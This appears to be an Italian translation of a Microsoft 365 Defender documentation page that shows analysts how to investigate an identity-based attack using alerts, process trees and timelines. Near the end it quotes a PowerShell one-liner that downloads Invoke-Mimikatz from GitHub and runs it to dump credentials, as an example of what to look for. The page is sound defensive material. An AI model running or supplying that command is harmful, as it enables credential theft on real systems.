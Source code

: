 ```yaml
---
title: Esempio di attacco basato su identità
description: Eseguire un'analisi di esempio di un attacco basato sull'identità.
keywords: incidenti, avvisi, indagare, correlazione, attacco, computer, dispositivi, utenti, identità, identità, cassetta postale, posta elettronica, 365, microsoft, m365, risposta a eventi imprevisti, cyberattacco
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: josephd
author: JoeDavies-MSFT
localization_priority: Normal
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365initiative-m365-defender
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: e56d6d5d78101da1f6da4c14ade25e80aa5b5063
ms.sourcegitcommit: 05f40904f8278f53643efa76a907968b5c662d9a
ms.translationtype: MT
ms.contentlocale: it-IT
ms.lasthandoff: 04/30/2021
ms.locfileid: "52114859"
---
```

# <a name="example-of-an-identity-based-attack"></a>Esempio di attacco basato su identità

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**Si applica a:**
- Microsoft 365 Defender

Microsoft Defender for Identity consente di rilevare tentativi dannosi di compromettere le identità nell'organizzazione. Poiché Defender for Identity si integra con Microsoft 365 Defender, gli analisti della sicurezza possono avere visibilità sulle minacce provenienti da Defender per l'identità, ad esempio i tentativi di elevazione dei privilegi Netlogon sospetti.

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>Analisi dell'attacco in Microsoft Defender for Identity

Microsoft 365 Defender consente agli analisti di filtrare gli avvisi in base all'origine di rilevamento nella **scheda Avvisi** della pagina eventi imprevisti. Nell'esempio seguente l'origine di rilevamento viene filtrata in **Defender per Identità**. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Esempio di filtro dell'origine di rilevamento per Defender for Identity":::

Selezionando **l'avviso sospetto di attacco overpass-the-hash** viene visualizzata una pagina in Microsoft Cloud App Security in cui vengono visualizzate informazioni più dettagliate. Per ulteriori informazioni su un avviso o  un attacco, selezionare Ulteriori [](https://docs.microsoft.com/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002) informazioni su questo tipo di avviso per leggere una descrizione dell'attacco e suggerimenti di correzione.
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="Esempio di avviso di attacco overpass-the-hash sospetto"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>Analisi dello stesso attacco in Microsoft Defender for Endpoint

In alternativa, un analista può usare Defender for Endpoint per altre informazioni sull'attività in un endpoint. Selezionare l'evento imprevisto dalla coda degli eventi imprevisti, quindi selezionare la **scheda** Avvisi. Da qui, possono identificare anche l'origine di rilevamento. Un'origine di rilevamento etichettata come EDR sta per Endpoint Detection and Response, che è Defender for Endpoint. Da qui, l'analista seleziona un avviso rilevato da EDR.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Esempio di rilevamento e risposta degli endpoint in Defender for Endpoint"::: 

Nella pagina di avviso vengono visualizzate varie informazioni pertinenti, ad esempio il nome del dispositivo, il nome utente, lo stato dell'analisi automatica e i dettagli dell'avviso. La storia dell'avviso rappresenta una rappresentazione visiva dell'albero del processo. L'albero dei processi è una rappresentazione gerarchica dei processi padre e figlio correlati all'avviso.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Esempio di un albero del processo di avviso in Defender for Endpoint"::: 

Ogni processo può essere espanso per visualizzare ulteriori dettagli. I dettagli che un analista può visualizzare sono i comandi effettivi immessi come parte di uno script dannoso, indirizzi IP di connessione in uscita e altre informazioni utili.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Esempio di dettagli del processo in Defender for Endpoint":::
 
Selezionando **Vedi nella sequenza temporale,** un analista può eseguire il drill-down ulteriormente per determinare l'ora esatta della compromissione. 

Microsoft Defender for Endpoint può rilevare molti file e script dannosi. Tuttavia, a causa di molti usi legittimi per le connessioni in uscita, PowerShell e attività da riga di comando, alcune attività vengono considerate benigne fino a quando non crea un file o un'attività dannosa. Pertanto, l'uso della sequenza temporale consente agli analisti di mettere l'avviso nel contesto dell'attività circostante per determinare l'origine o l'ora dell'attacco che altrimenti viene oscurato dalle attività comuni del file system e degli utenti. 

A tale scopo, un analista inizierà al momento del rilevamento degli avvisi (in rosso) e scorrerà indietro nel tempo per determinare quando è stata effettivamente avviata l'attività originale che ha portato all'attività dannosa. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="Esempio di avvio al momento del rilevamento degli avvisi"::: 

È importante comprendere e distinguere attività comuni come le connessioni Windows Update, il traffico di attivazione del software attendibile Windows, altre connessioni comuni ai siti Microsoft, attività Internet di terze parti, attività di Microsoft Endpoint Configuration Manager e altre attività benigne da attività sospette. Un modo per ottenere questo risultato è usare i filtri della sequenza temporale. Esistono molti filtri che possono evidenziare attività specifiche filtrando tutto ciò che l'analista non vuole visualizzare. 

Nell'immagine seguente l'analista ha filtrato per visualizzare solo gli eventi di rete ed elaborazione. In questo modo l'analista può visualizzare le connessioni di rete e i processi che circondano l'evento in cui Blocco note stabilito una connessione con un indirizzo IP, che abbiamo visto anche nell'albero dei processi. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="Esempio di utilizzo Blocco note per effettuare una connessione in uscita dannosa"::: 

In questo particolare evento è stato Blocco note una connessione in uscita dannosa. Tuttavia, spesso gli utenti malintenzionati usano semplicemente iexplorer.exe per stabilire connessioni per scaricare un payload dannoso perché in genere iexplorer.exe processi sono considerati attività regolari del Web browser.

Un altro elemento da cercare nella sequenza temporale è l'utilizzo di PowerShell per le connessioni in uscita. L'analista cerca connessioni PowerShell riuscite con comandi quali una connessione in uscita a un sito `IEX (New-Object Net.Webclient)` Web che ospita un file dannoso. 

Nell'esempio seguente, PowerShell è stato usato per scaricare ed eseguire Mimikatz da un sito Web:

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
Un analista può cercare rapidamente parole chiave digitando la parola chiave nella barra di ricerca per visualizzare solo gli eventi creati con PowerShell. 

## <a name="next-step"></a>Passaggio successivo

Vedi il percorso di analisi del [phishing.](first-incident-path-phishing.md)

## <a name="see-also"></a>Vedere anche

- [Panoramica degli eventi imprevisti](incidents-overview.md)
- [Gestire gli incidenti](manage-incidents.md)
- [Analizzare gli incidenti](investigate-incidents.md)
